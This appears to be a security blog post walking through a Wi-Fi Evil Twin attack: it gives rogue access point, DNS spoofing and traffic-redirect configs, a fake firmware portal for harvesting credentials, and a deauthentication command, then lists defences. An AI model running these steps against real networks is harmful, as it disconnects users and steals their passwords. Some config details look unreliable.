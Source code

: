 ```yaml
---
layout: post
title: Evil Twin Attack
date: 2025-02-09 13:40 +0000
categories: [Exploits, Evil Twin Attack]
tags: [Exploits, Evil Twin Attack]
permalink: /posts/Evil-Twin-Attack/
image:  
  path: /assets/img/thumbnails/Evil-Twin.png
---
```




# **Evil Twin Attack: Exploiting Wi-Fi Clients Without Additional Hardware**

## **Introduction**

The **Evil Twin Attack** is a sophisticated method of exploiting Wi-Fi clients by creating a rogue access point (AP) that mimics a legitimate one. The goal is to force clients to disconnect from the legitimate network and reconnect to the malicious AP, which has the same SSID. Once connected, the attacker can intercept traffic, redirect users to a fake firmware upgrade page, and harvest credentials or other sensitive information.

This attack can be executed using a Debian-based OS like **Kali Linux** without the need for additional hardware (though an external NIC may improve performance). Below is a step-by-step guide to setting up the attack, followed by mitigation strategies to defend against such exploits.

---

## **Attack Overview**
1. **Objective**: 
   - Knock Wi-Fi clients off their legitimate network.
   - Force them to reconnect to a rogue AP with the same SSID.
   - Redirect traffic to a fake firmware upgrade portal to harvest credentials.

2. **Tools**:
   - `hostapd`: For creating the rogue AP.
   - `dnsmasq`: For DHCP and DNS spoofing.
   - `apache2/nginx`: For hosting the fake portal.
   - `iptables`: For traffic redirection.
   - `aireplay-ng`: For deauthentication attacks.

3. **Prerequisites**:
   - A wireless interface in monitor mode.
   - Basic knowledge of networking, social engineering, and web development.

---

## **Step-by-Step Execution**

### **1. Install Required Tools**
```bash
sudo apt install hostapd dnsmasq apache2
```

### **2. Set Wireless Interface to Monitor Mode**
```bash
iwconfig [iface] mode monitor
```

### **3. Create Working Directory**
```bash
mkdir evil-twin && cd evil-twin
```

### **4. Configure `hostapd`**
Create `hostapd.conf`:
```bash
vim hostapd.conf
```
Configuration:
```ini
interface = [iface]
driver = nl80211
ssid = [ESSID of target]
hw_mode = g
channel = [channel of target]
macaddr_acl = 0
ignore_broadcast_ssid = 0
```

### **5. Configure `dnsmasq`**
Create `dnsmasq.conf`:
```bash
vim dnsmasq.conf
```
Configuration:
```ini
interface = [iface]
dhcp-range = 192.168.1.2, 192.168.1.30, 255.255.255.0, 12h
dhcp-option=3, 192.168.1.1
dhcp-option=6, 192.168.1.1
server = 8.8.8.8
log-queries
log-dhcp
listen-address=127.0.0.1
```

### **6. Configure Network Interface**
```bash
ifconfig [iface] up 192.168.1.1 netmask 255.255.255.0
```

### **7. Add Routing Rules**
```bash
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
```

### **8. Set Up IP Tables for Traffic Redirection**
```bash
iptables --table nat --append PREROUTING -i [iface] -p tcp -j REDIRECT --to-ports <ports running your portal>
```

### **9. Set Up the Fake Portal**
- Use tools like `httrack` to clone a legitimate firmware upgrade page.
- Modify the HTML/CSS to make it convincing.
- Set up a backend (e.g., Flask, Node.js) to handle user input.
- Save credentials to a database or file.

### **10. Start Services**
```bash
hostapd hostapd.conf
dnsmasq -C dnsmasq.conf -d
dnsspoof -i [iface]
```

### **11. Launch Deauthentication Attack**
```bash
aireplay-ng --deauth 0 -a [victim's BSSID] [iface]
```

---

## **Mitigation Strategies**

### **1. Use Strong Encryption**
- Ensure your Wi-Fi network uses **WPA3** encryption. If WPA3 is unavailable, use **WPA2** with a strong passphrase.

### **2. Monitor for Rogue APs**
- Deploy wireless intrusion detection systems (WIDS) to detect and alert on rogue APs.

### **3. Implement Certificate-Based Authentication**
- Use **802.1X/EAP** to authenticate devices connecting to your network. This prevents unauthorized devices from joining, even if they have the correct SSID and password.

### **4. Educate Users**
- Train users to recognize suspicious activity, such as unexpected firmware upgrade prompts or certificate warnings.

### **5. Disable Auto-Reconnect**
- Configure devices to **not auto-reconnect** to known networks without user confirmation.

### **6. Regularly Update Firmware**
- Ensure all network devices are running the latest firmware to patch known vulnerabilities.

### **7. Segment Your Network**
- Use VLANs to isolate sensitive devices and services from the rest of the network.

### **8. Monitor Network Traffic**
- Use tools like **Wireshark** or **Zeek** to analyze network traffic for anomalies.

### **9. Enable HTTPS Everywhere**
- Ensure all web-based services use HTTPS to prevent traffic interception.

### **10. Deploy Honeypots**
- Set up honeypot APs to detect and analyze malicious activity.


